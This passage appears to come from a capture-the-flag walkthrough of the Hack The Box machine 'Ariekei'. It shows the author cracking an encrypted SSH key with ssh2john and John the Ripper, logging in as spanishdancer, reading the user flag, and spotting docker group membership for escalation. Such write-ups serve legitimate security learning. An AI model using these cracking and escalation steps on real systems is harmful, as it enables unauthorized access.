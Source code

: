 We copy this to our box and try to ssh, it seems its encrypted somehow.

We use ssh2john to try and decrypt the password from it.

```bash
kali@kali:~/boxes/ariekei$ /usr/share/john/ssh2john.py id_rsa > id_rsa_hash
kali@kali:~/boxes/ariekei$ ls
exploit.py  hack.mvg  id_rsa  id_rsa_hash  nmap  notes
kali@kali:~/boxes/ariekei$ sudo john id_rsa_hash -w=/home/kali/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
purple1          (id_rsa)
1g 0:00:00:07 DONE (2020-06-14 05:11) 0.1394g/s 2000Kp/s 2000Kc/s 2000KC/sa6_123..*7¡Vamos!
Session completed
```

And we got a password! `purple1`

We then ssh as the user `spanishdancer`\(the home dir of where we found the ssh key in belonged to this user\)

```bash
kali@kali:~/boxes/ariekei$ ssh -i id_rsa spanishdancer@10.10.10.65
load pubkey "id_rsa": invalid format
The authenticity of host '10.10.10.65 (10.10.10.65)' can't be established.
ECDSA key fingerprint is SHA256:00QUDuqn+W8071V5kz4hM6rnINCedq8xiLh4igg9+XM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.65' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-87-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Mon Nov 13 10:23:41 2017 from 10.10.14.2
spanishdancer@ariekei:~$ ls
content  user.txt
spanishdancer@ariekei:~$ cat user.txt
ff0bca827a5f660f6d35df7481e5f216
```

Running `id` confirms that the user is part of a docker group, we will see if we can exploit this.

```bash
spanishdancer@ariekei:~$ id
uid=1000(spanishdancer) gid=1000(spanishdancer) groups=1000(spanishdancer),999(docker)
spanishdancer@ariekei:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
waf-template        latest              399c8876e9ae        2 years ago         628MB
bastion-template    latest              0df894ef4624        2 years ago         251MB
web-template        latest              b2a8f8d3ef38        2 years ago         185MB
bash                latest              a66dc6cea720        2 years ago         12.8MB
convert-template    latest              e74161aded79        4 years ago         418MB
```
